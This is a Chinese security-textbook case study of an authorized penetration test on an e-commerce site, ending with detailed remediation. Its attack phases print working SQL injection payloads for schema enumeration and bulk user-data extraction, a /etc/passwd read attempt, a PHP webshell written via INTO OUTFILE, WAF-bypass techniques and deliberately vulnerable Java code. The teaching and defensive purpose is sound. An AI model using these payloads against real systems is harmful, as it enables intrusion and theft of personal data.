


## 14.21 案例一：电商平台SQL注入导致数据泄露

SQL注入（SQL Injection）自1998年被首次公开披露以来，始终稳居OWASP Top 10。尽管参数化查询等防御手段已被广泛宣传，但2024年Verizon DBIR报告仍然显示注入攻击约占Web应用攻击事件的19%。本案例还原了一起真实电商平台因SQL注入导致50万用户数据泄露的完整攻击链，从发现、利用、横向移动到最终数据窃取，逐环节剖析攻击者的思维路径和操作手法，并给出覆盖代码、架构、运维、流程四个维度的系统化修复方案。

### 案例背景与目标系统

#### 受攻击平台概况

某中型B2C电商平台，日均活跃用户约30万，SKU数量超过20万。技术栈如下：

| 层级 | 技术选型 | 版本 | 备注 |
|------|----------|------|------|
| 前端 | Vue.js 3 + Nginx | Nginx 1.22 | 反向代理 + 静态资源 |
| 后端 | Java Spring Boot | 2.7.x | 未升级至3.x（仍使用javax而非jakarta） |
| 数据库 | MySQL 8.0 | 8.0.32 | 主从架构，主库可读写 |
| ORM | MyBatis | 3.5.x | 部分接口使用原生JDBC |
| 缓存 | Redis | 6.x | 会话和热点数据缓存 |
| 部署 | Docker + K8s | — | 容器化部署，但网络隔离不完善 |

**关键弱点**：开发团队为赶进度，部分搜索和筛选接口直接使用字符串拼接构建SQL，绕过了MyBatis的参数化机制。这是本案例的根本起因。

#### 攻击者的视角

攻击者是一个具备中级渗透能力的安全研究员（经授权的渗透测试）。其目标是评估平台的安全水位，重点关注OWASP Top 10中的A03（注入）和A01（访问控制失效）。攻击者掌握的信息仅包括平台的公开域名 `shop.example.com`，无内部架构文档或源码。

### 攻击链全景



### 第一阶段：信息收集与技术栈识别

攻击的第一步不是盲目测试注入，而是尽可能多地了解目标系统。在本案例中，攻击者通过以下手段完成技术栈指纹识别：

**1. HTTP响应头分析**

```http
HTTP/1.1 200 OK
Server: nginx/1.22.1
X-Powered-By: Express          # 遗留头，实际已改为Spring Boot
Set-Cookie: JSESSIONID=ABC123; Path=/; HttpOnly
Content-Type: application/json; charset=UTF-8
X-Application-Context: shop-prod:8080
```

- `Server: nginx/1.22.1` 暴露了前端Web服务器及版本
- `JSESSIONID` Cookie名称表明后端使用Java Servlet容器
- `X-Application-Context: shop-prod:8080` 泄露了Spring Boot应用名和端口

**2. 错误页面指纹**

访问一个不存在的API端点 `/api/v1/nonexist`，返回：

```json
{
  "timestamp": "2024-01-15T08:23:45.123+00:00",
  "status": 404,
  "error": "Not Found",
  "path": "/api/v1/nonexist"
}
```

响应格式是Spring Boot默认的错误JSON结构，确认后端框架。`timestamp`字段包含时区信息 `+00:00`，暗示服务器使用UTC时间，可能是容器化部署。

**3. 前端JavaScript分析**

查看前端打包文件（通常为 `/assets/index.xxxxx.js`），可以发现API调用模式和参数命名规范。在本案例中，搜索接口的调用方式暴露了参数名称和URL结构：

```javascript
// 前端代码片段（格式化后）
const searchProducts = async (keyword, page, sort) => {
  const response = await fetch(
    `/api/search?keyword=${keyword}&page=${page}&sort=${sort}`
  );
  return response.json();
};
```

**4. 使用Nuclei进行自动化指纹识别**

```bash
nuclei -u https://shop.example.com -t technologies/ -o tech-stack.txt
```

Nuclei的指纹模板可以快速识别Web服务器、框架、CMS等技术组件，为后续渗透提供方向。

### 第二阶段：注入点探测与确认

#### 测试请求

攻击者在搜索功能的 `keyword` 参数中注入单引号：

```http
GET /api/search?keyword=手机'&page=1&sort=price HTTP/1.1
Host: shop.example.com
Cookie: JSESSIONID=ABC123
```

#### 错误响应分析

服务器返回了详细的数据库错误信息：

```json
{
  "error": "MySQLSyntaxErrorException: You have an error in your SQL syntax;
  check the manual that corresponds to your MySQL server version for the right
  syntax to use near ''手机'' and status='active' order by price asc limit 0,20'
  at line 1"
}
```

这条错误信息暴露了以下关键情报：

| 泄露信息 | 具体内容 | 攻击价值 |
|----------|----------|----------|
| 数据库类型 | MySQL（MySQLSyntaxErrorException） | 确定注入Payload的语法变体 |
| SQL查询结构 | `WHERE name LIKE '%keyword%' AND status='active' ORDER BY price ASC LIMIT 0,20` | 知道表结构和查询逻辑 |
| 列名 | `status`、`price` | 减少枚举工作量 |
| 注入点类型 | 字符串型（单引号包裹） | 确定闭合方式 |
| 应用框架 | Java + JDBC（从异常类名推断） | 可能存在PreparedStatement滥用 |

#### SQL注入类型速查

本案例属于**基于错误的联合查询注入（Error-based UNION Injection）**。为帮助读者建立完整的认知体系，以下列出SQL注入的主要类型及其适用场景：



| 注入类型 | 原理 | 适用条件 | 难度 |
|----------|------|----------|------|
| 基于错误的注入 | 利用数据库报错信息直接回显数据 | 错误信息未关闭、detail级别日志 | 低 |
| 联合查询注入 | UNION SELECT将恶意查询结果并入正常结果集 | 已知列数、注入点在结果集中 | 低 |
| 布尔盲注 | 通过页面返回内容的差异（真/假）逐位推断数据 | 页面有明显的真假状态区分 | 中 |
| 时间盲注 | 通过SLEEP()等函数制造响应延迟来推断数据 | 无任何可见差异，只能控制延迟 | 高 |
| 堆叠查询 | 用分号分隔执行多条SQL语句 | 数据库驱动支持多语句执行 | 中 |
| 带外注入 | 通过DNS查询或HTTP请求将数据外传至攻击者服务器 | 数据库支持外带通信（如Oracle UTL_HTTP） | 高 |

### 第三阶段：联合查询注入提取数据

#### 步骤一：确定原始查询的列数

UNION SELECT要求两个SELECT语句返回相同数量的列。攻击者使用 `ORDER BY` 子句逐步探测列数：

```http
# ORDER BY 探测法
GET /api/search?keyword=手机' ORDER BY 1-- -&page=1&sort=price   -- 正常
GET /api/search?keyword=手机' ORDER BY 5-- -&page=1&sort=price   -- 正常
GET /api/search?keyword=手机' ORDER BY 6-- -&page=1&sort=price   -- 错误
```

当 `ORDER BY 6` 报错而 `ORDER BY 5` 正常时，确认原始查询返回5列。

也可以使用 `UNION SELECT NULL` 递增法：

```http
GET /api/search?keyword=手机' UNION SELECT NULL-- -&page=1&sort=price            -- 错误
GET /api/search?keyword=手机' UNION SELECT NULL,NULL-- -&page=1&sort=price       -- 错误
GET /api/search?keyword=手机' UNION SELECT NULL,NULL,NULL-- -&page=1&sort=price  -- 错误
GET /api/search?keyword=手机' UNION SELECT NULL,NULL,NULL,NULL-- -&page=1&sort=price -- 错误
GET /api/search?keyword=手机' UNION SELECT NULL,NULL,NULL,NULL,NULL-- -&page=1&sort=price -- 正常
```

> **注释符说明**：MySQL中 `--` 后面必须跟一个空格（或 `-- -`、`#`、`%23`），否则不会被识别为注释。在URL编码场景中，空格常被替换为 `+` 或 `%20`。本案例使用 `-- -`（两个减号+空格+减号）以确保兼容性。

#### 步骤二：确认可回显列

并非所有列都会在API响应中输出。测试哪些列位会被回显到JSON响应中：

```http
GET /api/search?keyword=手机' UNION SELECT 'COL1','COL2','COL3','COL4','COL5'-- -&page=1&sort=price
```

响应显示 `COL2` 和 `COL4` 出现在了搜索结果的商品名称和价格字段中，说明第2列和第4列是可回显列。

#### 步骤三：提取数据库基础信息

```http
# 数据库版本
GET /api/search?keyword=手机' UNION SELECT NULL,@@version,NULL,NULL,NULL-- -&page=1&sort=price

# 当前数据库名
GET /api/search?keyword=手机' UNION SELECT NULL,database(),NULL,NULL,NULL-- -&page=1&sort=price

# 当前用户权限
GET /api/search?keyword=手机' UNION SELECT NULL,current_user(),NULL,NULL,NULL-- -&page=1&sort=price
```

响应返回：

```json
{
  "results": [
    {"name": "8.0.32", "price": "shop_db"},
    {"name": "手机壳 防摔", "price": "29.9"}
  ]
}
```

确认：MySQL 8.0.32，数据库名 `shop_db`，当前用户 `app_rw@10.0.0.%`（应用读写账号，且有 `%` 段权限范围）。

#### 步骤四：枚举数据库表结构

```http
# 获取shop_db下所有表名
GET /api/search?keyword=手机' UNION SELECT NULL,GROUP_CONCAT(table_name SEPARATOR 0x7c),NULL,NULL,NULL
  FROM information_schema.tables WHERE table_schema='shop_db'-- -&page=1&sort=price
```

响应返回（解码后）：

```text
users|orders|products|payment_cards|admin_logs|coupons|addresses|sessions
```

**关键表识别**：`users`（用户表）、`payment_cards`（支付卡信息）、`addresses`（收货地址）、`sessions`（会话表）——这些是高价值目标。

```http
# 获取users表的列名
GET /api/search?keyword=手机' UNION SELECT NULL,GROUP_CONCAT(column_name SEPARATOR 0x7c),NULL,NULL,NULL
  FROM information_schema.columns WHERE table_name='users' AND table_schema='shop_db'-- -&page=1&sort=price
```

响应返回：

```text
id|username|password_hash|phone|email|real_name|id_card_encrypted|created_at|last_login|status
```

#### 步骤五：批量提取用户数据

```http
# 提取用户核心信息（分页避免GROUP_CONCAT长度限制）
GET /api/search?keyword=手机' UNION SELECT NULL,GROUP_CONCAT(
  CONCAT_WS(0x3a, id, username, phone, real_name) SEPARATOR 0x0a
),NULL,NULL,NULL FROM users LIMIT 0,1000-- -&page=1&sort=price
```

> **GROUP_CONCAT长度限制**：MySQL默认 `group_concat_max_len` 为1024字节。当数据量大时，需要通过 `LIMIT OFFSET` 分批提取，或修改会话变量：
>
> ```sql
> SET SESSION group_concat_max_len = 1000000;
> ```
>
> 在注入场景中，也可以通过子查询配合 `LIMIT` 和 `OFFSET` 分批获取数据。

攻击者通过多轮请求，最终获取了以下数据：

| 数据类型 | 记录数 | 敏感等级 |
|----------|--------|----------|
| 用户名+手机号 | 523,847 | 高 |
| 真实姓名+收货地址 | 523,847 | 高 |
| 身份证号（加密存储） | 523,847 | 极高 |
| 支付卡信息（加密） | 187,432 | 极高 |
| 登录密码哈希 | 523,847 | 高 |

### 第四阶段：横向渗透尝试

攻击者在获取数据库控制权后，尝试进一步扩大影响范围：

#### 4.1 尝试读取服务器文件

```http
# 尝试读取/etc/passwd（需FILE权限）
GET /api/search?keyword=手机' UNION SELECT NULL,LOAD_FILE('/etc/passwd'),NULL,NULL,NULL-- -&page=1&sort=price
```

由于应用账号 `app_rw` 没有 `FILE` 权限，此尝试失败。但值得注意的是，如果数据库以root运行且未做权限限制，此操作可读取服务器上的任意文件。

#### 4.2 尝试写入Webshell

```http
# 尝试写入文件到Web目录（需FILE权限 + 可写路径）
GET /api/search?keyword=手机' UNION SELECT NULL,'<?php system($_GET["cmd"]); ?>',NULL,NULL,NULL
  INTO OUTFILE '/var/www/html/uploads/shell.php'-- -&page=1&sort=price
```

同样因权限不足而失败。这说明该平台至少在数据库权限最小化方面做了一定工作。

#### 4.3 尝试UDF提权

攻击者尝试通过用户自定义函数（UDF）在数据库服务器上执行系统命令，但因没有 `FILE` 和 `SUPER` 权限而未能成功。

#### 4.4 内网横向探测

通过MySQL的 `INFORMATION_SCHEMA.PROCESSLIST` 和网络函数，攻击者确认了数据库服务器的内网IP段为 `10.0.0.0/24`，并发现主从复制配置。如果从库的安全配置弱于主库，攻击者可能转向从库进行攻击。

### 根因分析：为什么这个漏洞存在

本次事件的根因不是单一的技术失误，而是开发流程、架构设计、运维配置三个层面的系统性缺陷叠加所致。

#### 5.1 代码层面：字符串拼接构建SQL

**漏洞代码（Java + JDBC）**：

```java
// 搜索接口 - 使用字符串拼接（危险！）
public List<Product> searchProducts(String keyword, int page, String sort) {
    String sql = "SELECT id, name, price, image, stock FROM products "
               + "WHERE name LIKE '%" + keyword + "%' "
               + "AND status='active' "
               + "ORDER BY " + sort + " ASC "
               + "LIMIT " + ((page - 1) * 20) + ",20";

    Statement stmt = connection.createStatement();
    ResultSet rs = stmt.executeQuery(sql);
    // ... 处理结果
}
```

这段代码存在两个注入点：
1. `keyword` 参数直接拼接进 `LIKE` 子句——本案例的主要利用点
2. `sort` 参数直接拼接进 `ORDER BY` 子句——可被用于盲注

**为什么开发者用了字符串拼接而不是MyBatis参数化？** 追溯代码历史发现：最初搜索功能使用MyBatis XML映射文件实现，参数化查询工作正常。但在一次"搜索性能优化"迭代中，开发者需要动态构建 `ORDER BY` 子句（根据用户选择的排序字段），发现MyBatis的 `<if>` 标签在 `ORDER BY` 中使用参数化有兼容性问题，于是将整个查询改为原生JDBC字符串拼接。这个"临时方案"在上线后从未被回退。

#### 5.2 配置层面：错误信息泄露

Spring Boot生产环境配置中未关闭详细错误输出：

```yaml
# application-prod.yml（问题配置）
server:
  error:
    include-message: always      # 应为 never
    include-binding-errors: always  # 应为 never
    include-stacktrace: always   # 应为 never
```

正确配置应为：

```yaml
# application-prod.yml（安全配置）
server:
  error:
    include-message: never
    include-binding-errors: never
    include-stacktrace: never
    include-exception: false
  servlet:
    encoding:
      charset: UTF-8
```

同时，MySQL的 `log_error_verbosity` 设置为3（输出详细错误信息），虽然日志本身不直接暴露给用户，但Java应用捕获了完整的SQLException消息并写入JSON响应。

#### 5.3 架构层面：过度权限的数据库账号

```sql
-- 实际的数据库账号权限（过度授权）
GRANT SELECT, INSERT, UPDATE, DELETE, CREATE, DROP, ALTER, FILE, SUPER
ON shop_db.* TO 'app_rw'@'10.0.0.%';
```

应用账号拥有 `CREATE`、`DROP`、`ALTER` 等DDL权限，甚至包含 `FILE`（文件读写）和 `SUPER`（超级权限）。如果这些权限未被MySQL层面的策略阻止，攻击者可直接读写服务器文件、执行系统命令。

最小权限原则要求应用账号仅拥有执行业务逻辑所必需的最小权限集：

```sql
-- 正确的最小权限配置
GRANT SELECT, INSERT, UPDATE, DELETE
ON shop_db.products TO 'app_rw'@'10.0.0.%';
GRANT SELECT, INSERT, UPDATE
ON shop_db.orders TO 'app_rw'@'10.0.0.%';
GRANT SELECT
ON shop_db.products TO 'app_readonly'@'10.0.0.%';
```

#### 5.4 流程层面：缺乏安全测试

- 上线前无自动化安全扫描（SAST/DAST）
- 无代码审计中的安全检查清单
- 无渗透测试定期执行机制
- CI/CD流水线中未集成安全门禁

### 修复方案：四层防御体系

#### 第一层：代码修复——参数化查询

**修复后的搜索接口**：

```java
// 使用PreparedStatement参数化查询（安全）
public List<Product> searchProducts(String keyword, int page, String sort) {
    // 1. 白名单校验排序字段，防止ORDER BY注入
    Set<String> allowedSortFields = Set.of("price", "name", "created_at", "sales");
    String safeSort = allowedSortFields.contains(sort) ? sort : "price";

    // 2. 使用参数化查询处理用户输入
    String sql = "SELECT id, name, price, image, stock FROM products "
               + "WHERE name LIKE ? AND status='active' "
               + "ORDER BY " + safeSort + " ASC "
               + "LIMIT ?,?";

    try (PreparedStatement pstmt = connection.prepareStatement(sql)) {
        pstmt.setString(1, "%" + keyword + "%");
        pstmt.setInt(2, (page - 1) * 20);
        pstmt.setInt(3, 20);

        try (ResultSet rs = pstmt.executeQuery()) {
            return mapResults(rs);
        }
    }
}
```

> **为什么ORDER BY不能完全参数化？** SQL标准中 `ORDER BY` 子句接受列名或列序号，但 `PreparedStatement.setString()` 会将值作为字符串字面量处理（加单引号），导致 `ORDER BY 'price'` 变成按字符串常量排序而非按列排序。因此，`ORDER BY` 的列名必须通过白名单验证，而不能依赖参数化。

**MyBatis安全写法**：

```xml
<!-- 安全的MyBatis Mapper -->
<select id="searchProducts" resultType="Product">
    SELECT id, name, price, image, stock
    FROM products
    WHERE name LIKE CONCAT('%', #{keyword}, '%')
      AND status = 'active'
    ORDER BY ${allowedSortField} ASC
    LIMIT #{offset}, #{limit}
</select>
```

注意：`#{keyword}` 使用预编译参数（安全），而 `${allowedSortField}` 是字符串替换（需配合白名单校验）。MyBatis中 `#{}` 和 `${}` 的安全差异是每个Java开发者必须理解的基础知识。

#### 第二层：运维配置加固

```yaml
# application-prod.yml（安全加固后）
spring:
  datasource:
    url: jdbc:mysql://db-master:3306/shop_db?useSSL=true&requireSSL=true
    username: app_rw
    password: ${DB_PASSWORD}    # 从环境变量或密钥管理服务读取
    hikari:
      maximum-pool-size: 20
      connection-timeout: 3000

server:
  error:
    include-message: never
    include-binding-errors: never
    include-stacktrace: never
    include-exception: false
    whitelabel:
      enabled: false
  # 自定义错误页面
  servlet:
    encoding:
      charset: UTF-8

# 关闭SQL日志中的参数值输出（防止日志注入）
logging:
  level:
    org.springframework.web: WARN
    org.hibernate.SQL: WARN
```

Nginx层也要配置错误拦截：

```nginx
# 阻止后端错误信息泄露
proxy_intercept_errors on;
error_page 500 502 503 504 /custom_50x.html;

# 限制请求速率，减缓自动化攻击
limit_req_zone $binary_remote_addr zone=search:10m rate=10r/s;
location /api/search {
    limit_req zone=search burst=20 nodelay;
    proxy_pass http://backend;
}
```

#### 第三层：架构纵深防御

**WAF规则示例（ModSecurity）**：

```apache
# 拦截常见的SQL注入特征
SecRule ARGS "@rx (?i:(\bunion\b.*\bselect\b|\bselect\b.*\bfrom\b.*\bwhere\b))" \
    "id:1001,phase:2,deny,status:403,log,msg:'SQL Injection Attempt',severity:CRITICAL"

# 拦截information_schema访问
SecRule ARGS "@rx (?i(information_schema|sys\.(schema|tables|columns)))" \
    "id:1002,phase:2,deny,status:403,log,msg:'SQL Injection - Schema Enumeration'"

# 拦截MySQL内置函数调用
SecRule ARGS "@rx (?i(\bversion\(\)|\bdatabase\(\)|\buser\(\)|\b@@version\b))" \
    "id:1003,phase:2,deny,status:403,log,msg:'SQL Injection - Function Call'"
```

**RASP（运行时应用自我保护）**部署：

RASP在应用运行时监控所有SQL执行，检测并阻止异常查询模式。相较于WAF在HTTP层拦截，RASP在应用层拦截，绕过难度更高。主流RASP产品包括OpenRASP（百度开源）、Contrast Security、Synopsys Seeker。

**数据库审计与监控**：

```sql
-- 开启MySQL通用查询日志（仅用于安全审计，生产环境慎用）
SET GLOBAL general_log = 'ON';
SET GLOBAL log_output = 'TABLE';

-- 审计异常查询
SELECT event_time, user_host, argument
FROM mysql.general_log
WHERE argument LIKE '%UNION%'
   OR argument LIKE '%information_schema%'
   OR argument LIKE '%LOAD_FILE%'
ORDER BY event_time DESC;
```

#### 第四层：开发流程安全化

将安全检查嵌入CI/CD流水线：

```yaml
# .gitlab-ci.yml 安全门禁示例
stages:
  - test
  - security
  - deploy

sast-scan:
  stage: security
  script:
    # Java静态代码分析 - 检测SQL拼接
    - semgrep --config=p/java --config=p/owasp-top-ten .
    # SonarQube安全规则扫描
    - sonar-scanner -Dsonar.qualitygate.wait=true
  rules:
    - if: '$CI_MERGE_REQUEST_ID'

dependency-check:
  stage: security
  script:
    # 检测已知漏洞的依赖组件
    - dependency-check --project "shop" --scan . --out reports/

dast-scan:
  stage: security
  script:
    # 动态安全测试
    - zap-cli quick-scan --self-contained --start-options '-config api.disablekey=true' https://staging.example.com
```

**代码审查安全检查清单**：

| 检查项 | 高危信号 | 验证方法 |
|--------|----------|----------|
| SQL构建方式 | 字符串拼接、`String.format`、`StringBuilder` | grep搜索 `+ "\""` 或 `${` |
| ORM使用 | `${}` 占位符、原生SQL | MyBatis Mapper审查 |
| 错误处理 | `e.getMessage()` 直接返回 | 全局异常处理器审查 |
| 文件操作 | 用户输入直接用于路径拼接 | 路径遍历检测 |
| 权限配置 | 过度授权的数据库账号 | 审计 `GRANT` 语句 |

### 影响评估与合规后果

本次数据泄露事件的影响远超技术层面，涉及法律合规、商业损失和用户信任三个维度。

#### 数据泄露影响矩阵

| 影响维度 | 具体内容 | 严重程度 |
|----------|----------|----------|
| 用户隐私 | 52万用户的姓名、手机号、地址、身份证号（加密）泄露 | 极高 |
| 金融安全 | 18.7万条支付卡信息面临风险 | 极高 |
| 业务连续性 | 平台需紧急下线修复，估计损失营收约200万元 | 高 |
| 法律合规 | 违反《个人信息保护法》第51条、《网络安全法》第42条 | 极高 |
| 品牌声誉 | 用户信任度下降，竞品趁机抢占市场 | 高 |

#### 法律合规责任

根据中国《个人信息保护法》，个人信息处理者应当采取以下安全措施（第51条）：制定内部管理制度和操作规程、对个人信息实行分类管理、采取相应的加密和去标识化安全技术措施、合理确定个人信息处理的操作权限并定期进行安全教育和培训、制定并组织实施个人信息安全事件应急预案。

本次事件中，平台虽对身份证号和支付卡信息进行了加密，但加密数据仍可通过SQL注入批量获取（加密密钥存储在同一数据库的配置表中），属于"加密措施不足以有效保护"的情形。

### 常见误区与纠正

#### 误区一：MyBatis用 `#{}` 就安全了

**现实**：`#{}` 确实对参数值做了预编译，但如果开发者在 `ORDER BY`、`GROUP BY`、表名、列名等不能使用参数化的位置使用了 `${}`，仍然存在注入风险。安全审查必须覆盖所有 `${}` 的使用场景。

#### 误区二：WAF能防住所有SQL注入

**现实**：WAF基于规则匹配，可以通过编码变换、注释混淆、分块传输（Chunked Transfer Encoding）等方式绕过。WAF是纵深防御的一层，不能替代代码层的参数化查询。下表展示了常见的WAF绕过技术：

| 绕过技术 | 原理 | 示例 |
|----------|------|------|
| 大小写混合 | WAF规则可能区分大小写 | `UnIoN SeLeCt` |
| 双写绕过 | WAF删除一次关键字后仍保留 | `UNIunionON SELselectECT` |
| 内联注释 | MySQL特有语法 | `/*!UNION*/ /*!SELECT*/` |
| 编码绕过 | URL编码、十六进制、Unicode | `%55%4E%49%4F%4E` |
| 分块传输 | Transfer-Encoding: chunked | 将Payload分散到多个chunk |
| 参数污染 | 同名参数多次传递 | `?id=1&id=1' UNION SELECT` |

#### 误区三：加密存储就能保护数据

**现实**：本案例中身份证号使用AES加密存储，但加密密钥（AES Key）以明文形式存储在同一数据库的 `system_config` 表中。攻击者通过注入获取密钥后，可以直接解密所有敏感数据。加密密钥必须通过独立的密钥管理服务（如HashiCorp Vault、AWS KMS）管理，与加密数据物理隔离。

#### 误区四：只读账号就安全了

**现实**：即使应用使用只读数据库账号，攻击者仍可通过 `information_schema` 枚举所有表结构和数据。只读账号能阻止 `INSERT`、`UPDATE`、`DELETE` 操作，但无法阻止数据泄露。安全需要多层防护：参数化查询（防注入）+ 最小权限（限制范围）+ 加密存储（保护数据）+ 监控告警（及时发现）。

### 防御深度检查清单

以下检查清单可用于评估Web应用对SQL注入的防御水平：

**代码层**
- [ ] 所有SQL查询使用参数化查询或经过安全审查的ORM
- [ ] `ORDER BY`、`GROUP BY`、表名、列名使用白名单验证
- [ ] 不存在 `${}` 占位符的未经审查使用
- [ ] 全局异常处理器不返回数据库错误详情
- [ ] 日志记录中不包含SQL语句中的明文参数值

**配置层**
- [ ] 生产环境关闭详细错误输出
- [ ] 数据库使用最小权限账号连接
- [ ] 数据库禁用 `LOCAL INFILE`、`LOAD_FILE` 等危险功能
- [ ] 数据库连接使用SSL/TLS加密
- [ ] 加密密钥通过独立密钥管理服务管理

**架构层**
- [ ] WAF部署并配置了SQL注入规则集
- [ ] 数据库访问通过独立的内网网段，应用层无法直连
- [ ] 数据库审计日志开启并接入SIEM系统
- [ ] RASP部署在关键应用上

**流程层**
- [ ] CI/CD集成SAST工具（Semgrep、SonarQube）
- [ ] 每次发布前执行DAST扫描
- [ ] 每季度执行一次外部渗透测试
- [ ] 代码审查包含安全检查清单
- [ ] 应急响应预案已制定并定期演练

### 关联知识：SQL注入的现代变体

随着技术演进，SQL注入已不再局限于传统的关系型数据库。以下是需要关注的现代变体：

**NoSQL注入**：MongoDB、CouchDB等NoSQL数据库同样存在注入风险。例如MongoDB的查询语法：

```javascript
// 危险：直接使用用户输入构建查询
db.users.find({username: req.body.username, password: req.body.password})

// 攻击Payload：{"username": {"$gt": ""}, "password": {"$gt": ""}}
// 效果：绕过认证，匹配所有用户
```

**ORM注入**：即使使用ORM框架，不当的原生查询仍可导致注入。例如Django ORM：

```python
# 危险：使用raw()执行原生SQL
User.objects.raw(f"SELECT * FROM users WHERE name = '{name}'")

# 安全：使用参数化
User.objects.raw("SELECT * FROM users WHERE name = %s", [name])
```

**GraphQL注入**：GraphQL的查询语法虽然与SQL不同，但如果后端直接将GraphQL参数拼接进SQL查询，同样存在注入风险。这在GraphQL+SQL组合架构中是一个常被忽视的风险点。

### 练习建议

1. **本地复现**：使用Docker部署DVWA，设置安全等级为Low，完成SQL Injection模块的所有挑战
2. **进阶练习**：在OWASP Juice Shop中找到所有与注入相关的挑战（约15个）
3. **SQLMap实战**：使用SQLMap对DVWA的SQL注入点进行自动化测试，理解其输出含义
4. **防御编码**：尝试用Java、Python、Node.js各写一个安全的搜索接口，使用参数化查询
5. **安全审计**：在GitHub上搜索使用 `Statement.executeQuery` 的开源Java项目，分析其是否存在注入风险

***
